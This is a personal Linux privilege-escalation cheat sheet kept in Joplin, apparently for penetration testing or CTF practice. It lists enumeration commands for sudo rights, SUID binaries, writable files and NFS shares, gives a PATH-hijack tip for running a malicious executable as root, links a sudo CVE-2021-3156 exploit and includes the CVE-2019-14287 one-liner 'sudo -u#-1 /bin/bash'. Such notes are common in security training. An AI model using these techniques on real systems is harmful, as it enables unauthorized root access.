Linux Guide

## Check for User privileges

> id
> 
> \# If have sudo privileges
> 
> sudo -l
> 
> \# Then check for available scripts to see if there are any custom scripts
> 
> /usr/local/bin
> 
> /bin
> 
> /usr/bin
> 
> /usr/sbin
> 
> \# If any are executable, and are SUID Root
> 
> find / -perm -u=s -type f 2>/dev/null
> 
> \# change the PATH to point to /tmp and put the malicious executable in there, so it is executed as root

## Use LinEnum / LinPeas

All are located within the ~/privesc folder

# Check if files are writeable

> find . -writable

# Check for passwords in configs / database files

> strings &lt;file&gt;

# Check for files between particular dates

> find / -newermt 2019-09-10 ! -newermt 2019-09-13 2>/dev/null

# Check for nfs

Look into /etc/exports (cat the file)

Find no\_root\_squash shares (Using LinPeas also can)

# Sudo Version

If it is 1.8.X, probable of being vulnerable

1.8.31 - https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py

> Test for whether the sudo is vulnerable or not

1.8.27 and below - https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/

> sudo -u#-1 /bin/bash

id: 94be54afcb564ee7b6549b0b1bcac941
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-05-03T07:13:58.647Z
updated_time: 2022-08-21T14:18:52.168Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1652843736016.7188
user_created_time: 2022-05-03T07:13:58.647Z
user_updated_time: 2022-08-21T14:18:52.168Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
